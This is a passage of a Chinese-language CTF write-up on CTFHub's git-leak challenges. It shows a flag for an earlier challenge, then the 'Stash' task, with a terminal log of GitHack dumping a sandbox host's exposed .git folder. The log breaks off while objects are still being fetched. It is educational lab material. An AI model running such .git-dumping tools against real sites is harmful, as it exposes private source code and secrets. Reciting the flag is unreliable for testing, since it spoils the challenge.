 
提交`ctfhub{21b194cfff1432ef1c38d79c}`即可。

------

##### Stash

> 当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。请尝试使用BugScanTeam的GitHack完成本题

这题和上题的区别就在于：使用`git stash pop `恢复文件。

```bash
┌──(tyd㉿Kali)-[~/ctf/GitHack]
└─$ python2 GitHack.py http://challenge-053bfbe9e957dbd0.sandbox.ctfhub.com:10800/.git

  ____ _ _   _   _            _                                             
 / ___(_) |_| | | | __ _  ___| | __                                         
| |  _| | __| |_| |/ _` |/ __| |/ /                                         
| |_| | | |_|  _  | (_| | (__|   <                                          
 \____|_|\__|_| |_|\__,_|\___|_|\_\{0.0.5}                                  
 A '.git' folder disclosure exploit.                                        
                                                                            
[*] Check Depends
[+] Check depends end
[*] Set Paths
[*] Target Url: http://challenge-053bfbe9e957dbd0.sandbox.ctfhub.com:10800/.git/                                                                        
[*] Initialize Target
[*] Try to Clone straightly
[*] Clone
正克隆到 '/home/tyd/ctf/GitHack/dist/challenge-053bfbe9e957dbd0.sandbox.ctfhub.com_10800'...
致命错误：仓库 'http://challenge-053bfbe9e957dbd0.sandbox.ctfhub.com:10800/.git/' 未找到
[-] Clone Error
[*] Try to Clone with Directory Listing
[*] http://challenge-053bfbe9e957dbd0.sandbox.ctfhub.com:10800/.git/ is not support Directory Listing                                                   
[-] [Skip][First Try] Target is not support Directory Listing
[*] Try to clone with Cache
[*] Initialize Git
[!] Initialize Git Error: 提示：使用 'master' 作为初始分支的名称。这个默认分支名称可能会更改。要在新仓库中                                              
提示：配置使用初始分支名，并消除这条警告，请执行：                          
提示：                                                                      
提示：  git config --global init.defaultBranch <名称>                       
提示：                                                                      
提示：除了 'master' 之外，通常选定的名字有 'main'、'trunk' 和 'development' 。                                                                          
提示：可以通过以下命令重命名刚创建的分支：                                  
提示：                                                                      
提示：  git branch -m <name>                                                
                                                                            
[*] Cache files
[*] packed-refs
[*] config
[*] HEAD
[*] COMMIT_EDITMSG
[*] ORIG_HEAD
[*] FETCH_HEAD
[*] refs/heads/master
[*] refs/remote/master
[*] index
[*] logs/HEAD
[*] logs/refs/heads/master
[*] Fetch Commit Objects
[*] objects/2a/f4c55fd7a6e64762c583aa9e751b4048797cce
[*] objects/01/2ae1fc6b838a345b689ae6bb4ec0edfd517a64
```